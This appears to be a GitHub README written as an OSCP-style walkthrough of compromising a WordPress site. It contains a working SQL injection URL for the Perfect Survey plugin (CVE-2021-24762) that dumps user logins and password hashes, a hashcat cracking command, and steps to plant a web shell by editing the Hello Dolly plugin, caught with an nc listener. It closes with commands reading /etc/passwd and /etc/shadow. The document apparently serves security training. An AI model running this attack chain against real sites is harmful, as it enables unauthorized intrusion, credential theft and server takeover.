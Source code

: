 
# Uploading a Shell in WordPress via SQLi Entry Point 

This guide walks through the process of exploiting a SQL Injection (SQLi) vulnerability in a WordPress site to upload a shell and gain access to the server.

## Target Information

The target is a WordPress website. After extensive enumeration and testing of various parameters (e.g., ID, p, search), no vulnerabilities were initially found. 

## Discovery of Vulnerability

Using WPScan, I identified a critical CVE 
Perfect Survey < 1.5.2 - Unauthenticated SQL Injection:
- **CVE-2021-24762**: [Link to CVE](https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad)
  ![image](https://github.com/MalekAlthubiany/WordPressShell-OSCP/assets/127455300/9e15ccec-8f79-4123-a9d2-d73787e04c6f)

### Exploit Payload

The payload used for exploiting this vulnerability is:

```
https://example.com/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```
![image](https://github.com/MalekAlthubiany/WordPressShell-OSCP/assets/127455300/d741d6f2-efee-4a56-aeaf-2e3d8ca8b7ee)

The `question_id` must start with an existing post ID. Upon executing this payload, user credentials were leaked, including hashed passwords.

## Cracking the Hash

Using Hashcat, the hash was cracked:

```sh
hashcat -m 400 -a 0 'hash'
```

The password was immediately revealed. Using the cracked credentials, I logged into the WordPress admin panel.

## Uploading a Web Shell

1. **Login to WordPress Admin Panel**:
   - Username: `admin`
   - Password: `crackedhash`

2. **Editing a Plugin**:
   - Navigate to the Plugins section.
   - Choose the "Hello Dolly" plugin 
   - Edit the plugin file (e.g., `hello.php`) to include a web shell code.
   - Update the plugin with the modified code.

3. **Starting a Listener**:
   - Start a listener on your machine to catch the reverse shell:
   
   ```sh
   nc -lnvp 1234
   ```

4. **Activating the Shell**:
   - Visit `https://target.com/wp-content/plugins/hello.php` to activate the shell and gain access to the server.

## Post-Exploitation

After gaining shell access, check your privileges and enumerate the system for sensitive files and data. Due to privilege restrictions, enumeration might be limited.

### Simple Commands for Enumeration

Use simple commands to explore and gather information from the server:

```sh
whoami
uname -a
cat /etc/passwd
cat /etc/shadow
```

### Finding .txt Files

Use the following command to find all `.txt` files in the `/var/www` directory:

```sh
find /var/www -type f -name "*.txt"
```
![image](https://github.com/MalekAlthubiany/WordPressShell-OSCP/assets/127455300/4a7875cd-071b-4ce0-a6c3-097c0fd20e09)

The results from this command include:

```
/var/www/wordpress/wp-includes/js/swfupload/license.txt
/var/www/wordpress/wp-includes/js/plupload/license.txt
/var/www/wordpress/wp-includes/images/crystal/license.txt
/var/www/wordpress/wp-includes/ID3/readme.txt
/var/www/wordpress/wp-includes/ID3/license.txt
/var/www/wordpress/wp-includes/ID3/license.commercial.txt
/var/www/wordpress/license.txt
/var/www/wordpress/wp-content/themes/oceanwp/readme.txt
/var/www/wordpress/wp-content/themes/oceanwp/inc/customizer/assets/js/customize-search.js.LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/readme.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/dm-sans/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/ibm-plex/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/inter/LICENSE.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/readme.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/changelog.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/vendor/woocommerce/action-scheduler/license.txt
/var/www/wordpress/wp-content/plugins/ocean-stick-anything/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/changelog.txt
/var/www/wordpress/wp-content/plugins/akismet/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-social-sharing/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/license.txt
/var/www/wordpress/wp-content/plugins/elementor/assets/js/app.min.js.LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/readme.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/includes/sdk/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/changelog.txt
/var/www/wordpress/wp-content/plugins/perfect-survey/readme.txt
```

## Conclusion

This process demonstrates how to leverage a known vulnerability in a WordPress site to gain unauthorized access and upload a shell. Always ensure you have permission to test and exploit vulnerabilities on any target system.

